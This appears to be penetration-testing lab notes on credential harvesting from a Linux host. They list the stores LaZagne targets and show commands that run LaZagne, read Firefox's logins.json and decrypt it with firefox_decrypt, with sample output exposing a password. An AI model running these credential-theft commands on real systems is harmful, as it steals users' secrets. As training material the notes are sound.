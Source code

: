 |Wifi|Wpa_supplicant|Libsecret|Kwallet|
|Chromium-based|CLI|Mozilla|Thunderbird|
|Git|Env_variable|Grub|Fstab|
|AWS|Filezilla|Gftp|SSH|
|Apache|Shadow|Docker|KeePass|
|Mimipy|Sessions|Keyrings|

For example, `Keyrings` are used for secure storage and management of passwords on Linux distributions. Passwords are stored encrypted and protected with a master password.
	It is an OS-based password manager, which we will discuss later in another section. This way, we do not need to remember every single password and can save repeated password entries.

#### Memory - LaZagne

```shell-session
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all
```

#### Browsers
Browsers store the passwords saved by the user in an encrypted form locally on the system to be reused. For example, the `Mozilla Firefox` browser stores the credentials encrypted in a hidden folder for the respective user.
	when we store credentials for a web page in the Firefox browser, they are encrypted and stored in `logins.json` on the system. However, this does not mean that they are safe there. Many employees store such login data in their browser without suspecting that it can easily be decrypted and used against the company.

#### Firefox Stored Credentials
```shell-session
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default
```
```shell-session
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.
#### Decrypting Firefox Credentials
```shell-session
canklesmaks@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```
Alternatively, `LaZagne` can also return results if the user has used the supported browser.
#### Browsers - LaZagne

```shell-session
cry0l1t3@unixclient:~$ python3 laZagne.py browsers
```